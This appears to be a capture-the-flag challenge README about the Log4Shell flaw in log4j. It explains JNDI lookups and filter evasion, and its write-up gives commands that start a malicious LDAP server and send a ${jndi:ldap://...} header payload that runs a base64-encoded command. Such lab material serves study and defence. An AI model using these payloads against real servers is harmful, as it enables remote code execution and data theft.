

## chall based on 

Em 9 de Dezembro de 2021 foi encontrada uma vulnerabilidade en uma biblioteca de logging popular do Java `Java logging library log4j (version 2)` que ficou conhecida como `Log4Shell`, é uma vulneravilidade do tipo RCE (Remote Code Execution), e pode ser exploitada fazendo o log de algumas strings específicas.

- face on: `2.0-beta9 <= Apache log4j <= 2.14.1`

https://nvd.nist.gov/vuln/detail/CVE-2021-44228

## about log4j:
Log4j is an open-source logging framework that allows software developers to log data within their applications. This data can include user input. It is used ubiquitously in Java applications, especially enterprise software. Originally written in 2001 by Ceki Gülcü, it is now part of Apache Logging Services, a project of the Apache Software Foundation. Tom Kellermann, a member of President Obama's Commission on Cyber Security, described Apache as "one of the giant supports of a bridge that facilitates the connective tissue between the worlds of applications and computer environments".

The vulnerability takes advantage of Log4j's allowing requests to arbitrary LDAP and JNDI servers, allowing attackers to execute arbitrary Java code on a server or other computer, or leak sensitive information. A list of its affected software projects has been published by the Apache Security Team. Affected commercial services include Amazon Web Services, Cloudflare, iCloud, Minecraft: Java Edition, Steam, Tencent QQ and many others. According to Wiz and EY, the vulnerability affected 93% of enterprise cloud environments.




## EXPLOIT - via JNDI:
The Java Naming and Directory Interface (JNDI) allows for lookup of Java objects at program runtime given a path to their data. JNDI can leverage several directory interfaces, each providing a different scheme of looking up files. Among these interfaces is the Lightweight Directory Access Protocol (LDAP), a non-Java-specific protocol which retrieves the object data as a URL from an appropriate server, either local or anywhere on the Internet.

In the default configuration, when logging a string, Log4j 2 performs string substitution on expressions of the form ${prefix:name}. For example, Text: ${java:version} might be converted to Text: Java version 1.7.0_67. Among the recognized expressions is ${jndi:<lookup>}; by specifying the lookup to be through LDAP, an arbitrary URL may be queried and loaded as Java object data. ${jndi:ldap://example.com/file}, for example, will load data from that URL if connected to the Internet. By inputting a string that is logged, an attacker can load and execute malicious code hosted on a public URL. Even if execution of the data is disabled, an attacker can still retrieve data—such as secret environment variables—by placing them in the URL, in which case they will be substituted and sent to the attacker's server. Besides LDAP, other potentially exploitable JNDI lookup protocols include its secure variant LDAPS, Java Remote Method Invocation (RMI), the Domain Name System (DNS), and the Internet Inter-ORB Protocol (IIOP).

Because HTTP requests are frequently logged, a common attack vector is placing the malicious string in the HTTP request URL or a commonly logged HTTP header, such as User-Agent. Early mitigations included blocking any requests containing potentially malicious contents, such as ${jndi.} Such basic string matching solutions can be circumvented by obfuscating the request: ${${lower:j}ndi, for example, will be converted into a JNDI lookup after performing the lowercase operation on the letter j. Even if an input, such as a first name, is not immediately logged, it may be later logged during internal processing and its contents executed.

The simplest way to detect if a remote endpoint is vulnerable is to trigger a DNS query. As explained above, the exploit will cause the vulnerable server to attempt to fetch some remote code. By using the address of a free online DNS logging tool in the exploit string, we can detect when the vulnerability is triggered.

### write-up:
Make sure Java JDK version 8 to run LDPA/HTTP malicious local server:
```sh
# docker run --rm -it -p 8888:8888 -p 1389:1389 jndi-exploit /bin/bash
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 172.17.0.1 -p 8888
```

There should be a running server vulnerable application:
```sh
docker run --rm -p 8080:8081 i-am-logging-your-pc-now
```

If you force the application to generate a log, it will RCE your payload
```sh
curl 172.17.0.3:8080 -H 'X-Api-Version: ${jndi:ldap://172.17.0.2:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9pbG9ndGhhdHNoaXQ=}' #touch /tmp/ilogthatshit
```